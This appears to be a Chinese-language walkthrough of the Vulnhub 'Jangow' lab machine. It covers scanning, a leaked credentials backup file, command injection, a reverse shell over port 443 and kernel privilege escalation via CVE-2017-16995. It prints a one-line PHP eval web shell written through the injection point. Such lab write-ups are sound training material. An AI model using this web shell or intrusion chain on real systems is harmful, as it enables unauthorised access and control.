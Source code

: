 ```yaml
---

title: Vulnhub--Jangow
categories: [渗透靶场, Vulnhub]

---
```


## 渗透复现

1. Web站点存在传参点并且存在命令执行漏洞，URL直接上马
2. 尝试反弹shell发现端口限制，脚本探测开放端口，443端口成功反弹shell
3. 程序无法提权情况下，LinPEAs脚本检测内核漏洞
4. 利用内核版本漏洞成功提权

## 知识扩展

1. 传参点利用命令执行漏洞进行URL上马
2. 端口限制的情况下，脚本探测开放端口

## 靶机地址

https://www.vulnhub.com/entry/jangow-101,754/

## 主机发现

（1）攻击机

```py
192.168.88.128	
```

（2）目标靶机

```py
192.168.88.133
```

## 信息收集

### 端口扫描

![image-20240827235908348](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408272359463.png)

### 端口访问

![image-20240827235915515](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408272359594.png)

### 目录扫描

```python
http://192.168.88.133/
http://192.168.88.133/site/
```

![image-20240827235922137](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408272359250.png)

![image-20240828000005059](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408280000183.png)

### 目录爆破

![image-20240828000013330](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408280000484.png)

### 目录访问

（1）/.backup文件，泄露数据库账号密码

![image-20240828000021686](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408280000818.png)

（2）/site

![image-20240828000030527](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408280000648.png)

（3）/site/assets/

![image-20240828000041515](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408280000613.png)

（4）/site/js/

![image-20240828000057526](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408280000638.png)

（5）功能点尝试，buscar页面存在传参点

![image-20240828000104936](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408280001065.png)

![image-20240828000113060](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408280001145.png)

（6）尝试命令执行，回显，存在命令执行漏洞

![image-20240828000119435](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408280001512.png)

## 实施攻击

（1）URL上马

```py
#通过echo写入shell.php文件
echo '<?php eval($_POST["123"]);' > shell.php
```

![image-20240828000131775](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408280001854.png)

![image-20240828000148146](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408280001248.png)

（2）蚁剑连接

![image-20240828000153971](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408280001066.png)

（3）尝试反弹shell，发现shell弹不回来，原因可能是服务器存在端口限制

![image-20240828000201127](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408280002211.png)

（4）脚本探测发现靶机只开放443端口（一般情况下，服务器进行端口限制都不会限制80端口和443端口）

![image-20240828000211632](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408280002717.png)

## 提权

（1）信息收集

![image-20240828000222159](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408280002295.png)

![image-20240828000234519](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408280002643.png)

（2）前往home目录，进行信息收集

![image-20240828000241929](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408280002022.png)

（3）在程序无法提权情况下，通过LinPEAs脚本检测是否存在内核漏洞

![image-20240828000254840](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408280002947.png)

![image-20240828000310442](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408280003566.png)

（4）采取CVE-2017-16995进行提权

```py
#漏洞利用EXP地址
https://www.exploit-db.com/exploits/45010
```

![image-20240828000339706](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408280003817.png)

（5）运行脚本，提权成功

![image-20240828000348903](https://cdn.jsdelivr.net/gh/Pres3nt/Typoraimages@master/images/202408280003004.png)
